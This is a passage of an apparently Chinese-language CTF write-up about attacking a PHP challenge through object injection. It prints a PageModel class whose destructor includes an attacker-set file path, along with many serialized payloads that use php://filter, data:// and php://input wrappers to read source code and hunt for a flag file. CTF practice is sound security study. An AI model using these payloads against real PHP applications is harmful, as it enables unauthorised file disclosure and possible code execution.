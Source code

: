     * 读取models/PageModel.php

      ```php
      O:9:"PageModel":1:{s:4:"file";s:69:"PHP://filter/read=convert.base64-encode/resource=models/PageModel.php";}
      ```

    * 解码

      ```php
      <?php
      class PageModel
      {
          public $file;
      
          public function __destruct() 
          {
              include($this->file);
          }
      }
      ```

    * 猜测其它方法获取不到的文件，可能通过php://filter/read=convert.base64-encode/resource获取到，然而并获取不到

      ```shell
      O:9:"PageModel":1:{s:4:"file";s:58:"PHP://filter/read=convert.base64-encode/resource=/www/flag";}
      
      O:9:"PageModel":1:{s:4:"file";s:56:"PHP://filter/read=convert.base64-encode/resource=../flag";}
      
      O:9:"PageModel":1:{s:4:"file";s:53:"PHP://filter/read=convert.base64-encode/resource=flag";}
      
      O:9:"PageModel":1:{s:4:"file";s:51:"PHP://filter/read=convert.base64-encode/resource=./";}
      
      O:9:"PageModel":1:{s:4:"file";s:54:"PHP://filter/read=convert.base64-encode/resource=/flag";}
      
      O:9:"PageModel":1:{s:4:"file";s:57:"PHP://filter/read=convert.base64-encode/resource=flag.php";}
      
      O:9:"PageModel":1:{s:4:"file";s:60:"PHP://filter/read=convert.base64-encode/resource=models/flag";}
      ```

15. 重新尝试data://伪协议，

    * 尝试base64编码，没有结果

      ```shell
      O:9:"PageModel":1:{s:4:"file";s:55:"data:text/plain;base64,bcfe173e092337ca0561065f4920d521";}
      ```

16. 尝试php://filter与php://input组合

    * 尝试

      ```PHP
      O:9:"PageModel":1:{s:4:"file";s:60:"PHP://filter/read=convert.base64-encode/resource=PHP://input";}
      ```

17. 发现题目提供了源码，下载题目所给的必要文件，并验证文件完整性

    ```shell
    ## Windows
    certutil -hashfile [filename] sha256
    ```
    